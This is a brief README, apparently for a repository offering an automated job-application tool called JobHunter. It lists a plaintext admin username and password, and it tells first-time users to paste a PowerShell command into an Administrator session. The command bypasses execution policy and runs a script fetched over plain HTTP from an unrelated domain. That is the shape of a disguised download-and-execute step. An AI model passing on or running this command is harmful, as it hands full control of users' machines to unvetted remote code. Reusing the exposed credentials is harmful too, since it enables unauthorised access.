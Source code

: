 # JobHunterRelease
JobHunterRelease

UserName: admin@ncstc.in
Password: admin@12345

Feel free to contact me at wasim.akh2@gmail.com

JOBHUNTER is updated now. You can clone it from <a href="https://github.com/wasimakhtarcnx/JobHunter.git">https://github.com/wasimakhtarcnx/JobHunter.git</a> for Automated Job Apply. With Your GitHub Login

For First time user below script in Powershell with Administrator

Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('http://dndstatus.co.in/install.ps1'))

